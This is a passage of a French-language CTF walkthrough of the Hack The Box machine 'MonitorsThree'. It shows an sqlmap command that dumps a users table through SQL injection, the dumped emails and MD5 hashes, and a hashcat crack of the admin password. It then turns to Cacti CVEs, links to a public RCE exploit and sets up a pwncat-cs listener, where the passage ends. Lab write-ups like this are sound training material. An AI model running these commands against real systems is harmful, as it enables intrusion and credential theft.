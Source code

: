 ```bash
+---------------+

➜  ~ sqlmap -u http://monitorsthree.htb/forgot_password.php --data "username=*" --level=5 --dbms mysql --tables -D monitorsthree_db -T users --batch --threads=10 --dump

|id | email                  | pwd                              | username  |
|---|------------------------|----------------------------------|-----------|
| 2 | admin@monitors.htb     | 31a181c8372e3afc59dab863430610e8 | admin     |
| 5 | mwatson@monitors.htb   | c585d01f2eb3e6e1073e92023088a3dd | mwatson   |
| 6 | janderson@monitors.htb | 1e68b6eb86b45f6d92f8f292428f77ac | janderson |
| 7 | dthompson@monitors.htb | 633b683cc128fe244b00f176c8a950f5 | dthompson |
```

Par manque de place je vous affiches, que le strict minimum. 

J'ai donc décidé d'enlever le champ dob, name, salary, position, start_date.

Bon première remarque, ici on a pas besoin de chercher le format du hash c'est assez obvious que c'est du MD5 :D

Je lance donc un petit hashcat pour péter le hash du mdp admin.

```bash
➜  ~ hashcat -m 0 -a 0 '31a181c8372e3afc59dab863430610e8' ./HDD/Documents/rockyou.txt

31a181c8372e3afc59dab863430610e8:greencacti2001
```

Bingo !

Les autres ne sont pas exploitables avec le dictionnaire rockyou.

je tente de me login et hop on est connecté au dashboard en admin :D

Mais bon ici on peut passer au vhost que j'avais trouvé car j'y avais trouvé des CVE, mais il fallait être authentifié pour exploit.
#### cacti.monitorsthree.htb

Je chope dans le code source une version de l'outil qu'utilise le vhost
- cactiVersion 1.2.26

Je vais donc chercher logiquement si il existerait pas une CVE sur la version.
- Je trouve une première CVE -> (CVE-2024-31445)
	- C'est une SQLi, mais il faut être authentifié.
- Je trouve une autre CVE -> (CVE-2024-25641) 
	- Celle-ci permet une RCE PHP, mais encore une fois il faut être authentifié.

Désormais on a les creds de l'admin donc ici la CVE qui permet une RCE, est ce qui nous intéresse dans notre cas.

Je trouve un bon exploit: https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26?tab=readme-ov-file

Je rentre l'exploit, j'arrivais pas à faire marcher l'exploit car j'avais pas mit /cacti/ dans l'url :D

Donc je me mets en écoute avec pwncat-cs
